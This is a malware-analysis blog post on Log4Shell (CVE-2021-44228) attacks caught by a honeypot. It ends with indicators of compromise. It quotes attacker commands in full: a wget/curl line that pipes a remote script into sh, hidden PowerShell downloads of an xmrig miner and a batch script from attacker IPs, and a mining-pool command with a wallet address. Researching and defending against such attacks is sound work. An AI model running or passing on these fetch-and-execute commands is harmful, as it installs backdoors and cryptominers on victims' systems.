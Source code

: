 ```yaml
---
title: Analyzing Log4j Malware
author: Zach Crosman
date: 2021-12-23 18:32:00 -0500
categories: [Malware Analysis, log4j]
tags: [log4j, crypto miner, honeypot]
toc: false
pin: false
math: false
mermaid: true
---
```


## Intro

On December 9, 2021 CVE-2021-44228 was disclosed. It is related to the log4j package that is commonly used for Java logging. This is a RCE vulnerability and attacks have been ongoing for a few weeks. I wanted to check out some active exploits and dive into what exactly they are doing. I have created a Github repository and added some of the files found from looking into the attempted exploitation of a honeypot I set up.

Project Github: https://github.com/zcrosman/log4j-malware

## Setting up a honeypot

Setting up a honeypot to analyze basic exploitation attempts is extremely simple. I used a honeypot created by MalwareTech that was already set up and easily deployable. I only made a couple of changes to the configuration of the ports and server name.
Test of exploitation attempt shows that detection is working

After setting up the honeypot, it becomes a waiting game. Within an hour, the first exploitation attempt came though. For each attempt, the malicious string is added to the four different fields.
Attempted exploitation from several fields

## Analyzing the attempted exploitation

I pulled the Exploit.class from the host identified above to see what it was doing. There are two main parts to this script. If it is a Linux, host it will download and execute the ‘log’ file. On Windows hosts, the file ‘z.cmd’ and ‘setup_minerocean_miner.bat’ files are downloaded and executed.
Full Exploit.class script

## Further analysis of Linux explotation

For Linux hosts, the script will download and run ‘log’. This script downloads and attempts to execute three different files.

(wget -qO - http://51.250.28.5/.l/log || curl http://51.250.28.5/.l/log) | sh

‘log’ file

Both of the pty files are ELF executables. The ‘pty3’ file is for 64-bit hosts and ‘pty4’ is for 32-bit hosts. Both files were found to be malicious by checking the hash on VirusTotal. Several tools also identified the malware as Tsunami.
pty3 VirusTotal analysis
pty4 VirusTotal analysis

Additionally, the script downloads and runs the ‘ldm’ file. This is just a bash script that runs on top of the executables. I have added this file to the GitHub repo.
Further analysis of Windows exploitation

If the vulnerable host is running a Windows OS, then the commands below are run in Powershell. The first step is downloading a crypto miner and an additional script to start it. Once the miner is set up, a setup script from a public GitHub repository is used to set up the miner.

```
new-object System.Net.WebClient).DownloadFile('http://150.60.139.51:80/wp-content/themes/twentyseventeen/s.cmd'
```

```
powershell -w hidden -c (new-object System.Net.WebClient).Downloadfile('http://68.183.165.105:80/wp-content/themes/twentyseventeen/xmrig64.exe','xmrig.exe')
```

```
xmrig.exe -o pool.supportxmr.com:5555 -u 46QBumovWy4dLJ4R8wq8JwhHKWMhCaDyNDEzvxHFmAHn92EyKrttq6LfV6if5UYDAyCzh3egWXMhnfJJrEhWkMzqTPzGzsE -p log
```

```
new-object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MoneroOcean/xmrig_setup/master/setup_moneroocean_miner.bat')
```

## Summary


## IOCs

`46.105.95[.]220`
`47.241.208[.]155`
`51.250.28[.]5`
`68.183.165[.]105`
`150.60.139[.]51`
`192.46.216[.]224`


`12cedf7cd63208ee8fd9d0359637c46c  pty3`
`fe5177cbcb78d1aaac9e5adbb9928a74  pty4`
`65009620e1f8ec829801048d8200bfeb  ldm.sh`
`4a9acf6ce16ed6b978648ef9b3eeca2f  log`
`41857b926bb8c47e24317aafbfa8e832  s.cmd`
`a6ef05385cd4f14349562d98b90a39ce  Exploit.class`
